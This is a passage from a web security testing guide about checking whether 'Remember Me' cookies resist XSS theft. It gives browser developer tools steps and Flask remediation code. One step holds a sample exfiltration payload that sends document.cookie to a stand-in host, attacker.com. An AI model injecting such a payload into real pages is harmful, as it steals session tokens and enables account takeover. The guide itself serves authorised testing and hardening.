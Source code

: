 **Tip**: Save Burp Suite Repeater responses and Postman test results as screenshots. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 5. Test Remember Me Token Theft via XSS with Browser Developer Tools and Red Team Simulation

**Objective**: Ensure "Remember Me" tokens are protected against theft via XSS or phishing.

**Steps**:
1. Log in with "Remember Me" enabled and open Browser Developer Tools.
2. Inspect the "Remember Me" cookie for `HttpOnly` and `Secure` attributes:
   ```
   Application tab -> Cookies -> Select https://example.com -> Verify remember_token has HttpOnly and Secure
   ```
3. Check local storage to ensure tokens are not exposed to JavaScript:
   ```
   Application tab -> Local Storage -> Check for remember_token presence
   ```
4. Simulate XSS-based token theft (with permission):
   ```
   Console tab -> Type: alert(document.cookie) -> Check if remember_token is accessible
   ```
5. Simulate phishing/malware token theft by crafting a malicious script (ethical testing only):
   ```javascript
   // Simulated malicious script
   fetch('https://attacker.com/steal?token=' + document.cookie);
   ```
6. Analyze findings; expected secure response is `HttpOnly` and `Secure` attributes with no token in local storage.

**Example Secure Response**:
```
Cookie: remember_token=xyz123; HttpOnly; Secure
[No remember_token in Local Storage]
```

**Example Vulnerable Response**:
```
Cookie: remember_token=xyz123
Local Storage: {"remember_token": "xyz123"}
```

**Remediation**:
- Set secure cookie attributes (Python/Flask):
  ```python
  @app.post('/login')
  def login():
      response = jsonify({'status': 'success'})
      response.set_cookie('remember_token', 'xyz123', httponly=True, secure=True, max_age=604800)
      return response
  ```

**Tip**: Save screenshots of Browser Developer Tools cookie/storage tabs and XSS simulation results. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., missing attributes).


[Log entry]: "Invalid remember_token attempt: abc123 from IP 192.168.1.1"